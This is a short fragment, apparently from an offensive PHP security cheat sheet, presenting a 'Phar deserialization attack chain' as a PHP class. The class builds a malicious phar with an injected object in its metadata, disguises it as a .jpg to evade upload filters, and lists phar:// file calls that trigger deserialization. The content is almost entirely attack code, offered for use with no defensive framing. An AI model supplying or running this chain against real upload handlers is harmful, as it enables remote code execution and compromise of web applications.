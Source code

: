 ```javascript
```

---

## 🎣 Modern PHP Exploitation: Phar Deserialization & Advanced Wrappers

```php
// Phar Deserialization Attack Chain
class PharExploitation {
    /*
     * Requirements:
     * 1. File operation that uses phar:// (file_exists, is_file, etc.)
     * 2. Ability to upload files (even with extension checks)
     * 3. Vulnerable class with magic methods
     */

    public function generateMaliciousPhar($payload) {
        // Step 1: Create phar with crafted metadata
        $phar = new Phar("evil.phar");
        $phar->startBuffering();

        // Add dummy file
        $phar->addFromString("test.txt", "test");

        // Inject malicious object in metadata
        $object = new VulnerableClass($payload);
        $phar->setMetadata($object);
        $phar->setStub("<?php __HALT_COMPILER(); ?>");

        $phar->stopBuffering();

        // Step 2: Bypass upload filters
        // Rename to .jpg, .png, etc. - phar:// still works!
        rename("evil.phar", "evil.jpg");
    }

    public function triggerDeserialization($uploadPath) {
        // Step 3: Trigger via any file operation
        $triggers = [
            "file_exists('phar://$uploadPath/evil.jpg')",
            "is_file('phar://$uploadPath/evil.jpg')",
            "file_get_contents('phar://$uploadPath/evil.jpg/test.txt')",
            "include('phar://$uploadPath/evil.jpg/test.txt')"
        ];

        return $triggers;
    }
}
```
